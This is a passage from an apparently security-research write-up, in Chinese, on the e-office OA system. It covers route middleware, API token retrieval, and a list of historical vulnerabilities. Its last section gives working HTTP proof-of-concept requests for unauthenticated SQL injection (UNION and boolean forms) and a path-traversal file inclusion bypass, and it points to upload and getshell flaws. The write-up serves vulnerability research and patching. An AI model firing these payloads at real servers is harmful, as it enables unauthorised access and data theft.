 每个模块文件夹内部还允许设置`routes.php`文件配置路由，该部分的路由属于路由组1，这部分的路由组基本会校验权限和api token：

```php
$router->group(["namespace"  => "App\\EofficeApp",
                "middleware" => "decodeParams|
                ModuleEmpowerCheckNoToken|
                authCheck|
                ModulePermissionsCheck|
                menuPower|
                openApiMiddleware|
                syncWorkWeChat|
                verifyCsrfReferer",
                "prefix"     => "/api"], function ($router) {
    register_routes($router, $moduleDir, $modules);
});
```

 Web/routes.php的其他路由组访问模式直接查看代码中的设置就可以了。

3. api token（令牌）获取

需要api token验证的路由，在请求内附上token才能正常请求。传递方式有两种：api_token参数和header头Authorization字段

e.g. header头传输的固定格式`Authorization:Bearer 令牌`

令牌需要用户登录后进行生成，可以通过chrome浏览器f12-应用-本地存储空间搜索`loggedUsersIMToken`密钥字段获取。令牌传输的相关错误和异常码，可以在api文档中查看（第三节倒数第二个链接）。	

### (5) 历史漏洞 ###

这里放的都是2022年目前还能找到详情公开的漏洞。

- SQL注入

```
（1）【<=9.0_141103】【CNVD-2022-43246】未授权SQL注入
POST /general/crm/linkman/query/detail.php HTTP/1.1
linkman_id=-1+UNION+ALL+SELECT+NULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CCONCAT%28%7B0%7D%2C%7B1%7D%2C%7B0%7D%29%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--+-

（2）【<=9.5_20220113】/E-mobile/App/System/UserSelect/index.php 后台登录布尔逻辑SQL注入
POST /E-mobile/App/System/UserSelect/index.php?m=getUserLists HTTP/1.1
privId=0&deptId=1+or+1=1#&sessionkey=99lk5c0ln03vm4kbd1ofet3u41
```

- 文件操作

```
(1)【<=9.5】/webroot/general/index/UploadFile.php 文件上传
CNVD-2021-49104
https://blog.csdn.net/qq_38850916/article/details/121696515

（2）【8-10】iWebOffice控件上传getshell
【<=8】【未授权】/iWebOffice/OfficeServer.php和/iWebOffice/OfficeServer2.php
REF：http://wy.zone.ci/bug_detail.php?wybug_id=wooyun-2015-0125638
【<10】【未授权】eoffice10/server/app/EofficeApp/IWebOffice/Services/IWebOfficeService.php中$m0ption=SAVEFILE和SAVEPDF分支
Patch：http://v10.e-office.cn/10safepack/%E6%B3%9B%E5%BE%AEe-officev10.0_20210909%E5%AE%89%E5%85%A8%E8%A1%A5%E4%B8%81.zip

（3）【<=v9.5_20220113】【CNVD-2022-43247】未授权包含
补丁对比，点绕过：
Patch：http://v10.e-office.cn/eoffice9update/20220525/webroot.zip
POC：
POST /gotoeoffice.php HTTP/1.1
USER_LANG=../test.php.....................................................................................................................................................................................................................................................
```